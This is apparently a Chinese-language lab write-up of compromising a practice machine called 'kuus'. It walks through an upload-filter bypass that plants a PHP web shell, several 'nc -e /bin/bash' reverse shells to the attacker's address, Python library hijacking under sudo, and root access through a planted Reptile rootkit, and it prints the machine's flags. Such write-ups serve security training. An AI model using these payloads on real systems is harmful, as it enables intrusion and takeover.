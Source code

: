 做virtualBox的端口映射吧

|   |   |   |
|---|---|---|
|suuk|medim|文件白名单绕过、反弹shell、$paht环境变量更改、python 库劫持提权、Reptile提权、sandfly-processdecloak使用|
# 服务扫描

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -A -T 4 -p 22,80 192.168.18.238

```
# GetSHell
访问80http://192.168.18.238/
文件上传，白名单限制,只允许图片格式,使用1.php.jpg的方式绕过文件上传，原因可能是因为后端只取点后的第一个后缀进行解析。
```css
POST /upload.php HTTP/1.1

Host: 192.168.18.238

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: multipart/form-data; boundary=---------------------------58834982911681499741555270890

Content-Length: 365

Origin: http://192.168.18.238

Connection: close

Referer: http://192.168.18.238/

Upgrade-Insecure-Requests: 1



-----------------------------58834982911681499741555270890

Content-Disposition: form-data; name="photo"; filename="1.php.jpg"

Content-Type: image/png



<?php system($_GET['cmd']);?>

-----------------------------58834982911681499741555270890

Content-Disposition: form-data; name="submit"



Upload

-----------------------------58834982911681499741555270890--
```

访问http://192.168.18.238/upload/1.php.jpg?cmd=id

反弹shell
```css
http://192.168.18.238/upload/1.php.jpg?cmd=nc%20-e%20/bin/bash%20192.168.44.128%209001


┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [192.168.44.128] from (UNKNOWN) [192.168.44.10] 4854
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
script /dev/null -c bash
Script started, file is /dev/null
www-data@kuus:/var/www/html/upload$ 

```

# 提权
tignasse 账号下有个.pass.txt 文件，但是经过测试并没有用
尝试常规的sudo\suid\内核\任务计划\进程分析手段、爆破了一段时间之后,也没结果。实在不想浪费时间了，看了别人的writeup，才知道。这里密码另有隐情！
```c
www-data@kuus:/home$ ls
ls
mister_b  tignasse

www-data@kuus:/home/tignasse$ more .pass.txt
more .pass.txt
716n4553
www-data@kuus:/home/tignasse$ cat .pass.txt
cat .pass.txt
Try harder !

```

hydra
```c
hydra -l tignasse -p 716n4553 ssh://192.168.18.238

[22][ssh] host: 192.168.18.238   login: tignasse   password: 716n4553
```

ssh
```c
┌──(kali㉿kali)-[~]
└─$ sudo ssh tignasse@192.168.18.238

tignasse@kuus:~$ sudo -l
    (mister_b) NOPASSWD: /usr/bin/python /opt/games/game.py

```
tignasse 用户下，可以看到mister_b 用户有个特权脚本
game.py文件由用户mister_b所有，它导入3 个库。可以看到导入的库使用了可能被滥用的相对路径。
1、我们在/opt/games内创建一个名为random.py的文件，其中包含以下内容：
```
import os 
os.system("nc -e /bin/bash 192.168.44.128 9000")
```
2.、将/opt/games添加到PATH：
通过 python 库劫持进行的权限升级，因为 python 会搜索它导入的库，这些库通常是 PATH 中第一个的库，这就是我们在PATH之前添加/opt/games的原因。
3、最后我们使用nc 监听 2334端口，然后使用sudo 执行该脚本后，成功获取mister_b权限

```c
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9000
listening on [any] 9000 ...
connect to [192.168.44.128] from (UNKNOWN) [192.168.44.10] 4315
id
uid=1001(mister_b) gid=1001(mister_b) groups=1001(mister_b)
script /dev/null -c bash
Script started, file is /dev/null


mister_b@kuus:~$ cat user.txt
cat user.txt
Ciphura

```

历史记录发现执行了一个二进制文件
```c
mister_b@kuus:~$ cat .bash_history
cat .bash_history
ps -aux |grep root
ss -altp
sudo -l
find / -writable ! -user `whoami` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null
./sandfly-processdecloak
exit

```
sandfly-processdecloak是一个实用程序，用于快速扫描被常见和不常见的可加载内核模块隐形 Rootkit 隐藏的 Linux 进程 ID (PID)，并将其隐藏起来，使它们可见。比如：Diamorphine, Reptile and variants

编译了一个上传上去执行并没有看到隐藏进程，后面找了一下reptile项目，发现reptile 文件夹也是隐藏的。

https://github.com/f0rb1dd3n/Reptile/wiki/Local-Usage

在www-data 的 bash 历史记录中，有一个名为[reptile](https://github.com/f0rb1dd3n/Reptile)的隐藏目录
```c
www-data@kuus:/var/www$ cd ~
www-data@kuus:/var/www$ cat .bash_history
```

尝试执行如下命令，发现直接提取到root，www-data 权限也是可以直接提取到root

```
/reptile/reptile_cmd root
```

```c
root@kuus:/home/mister_b# cat user.txt
cat user.txt
Ciphura
root@kuus:/home/mister_b# cat /root/root.txt
cat /root/root.txt
Warulli

```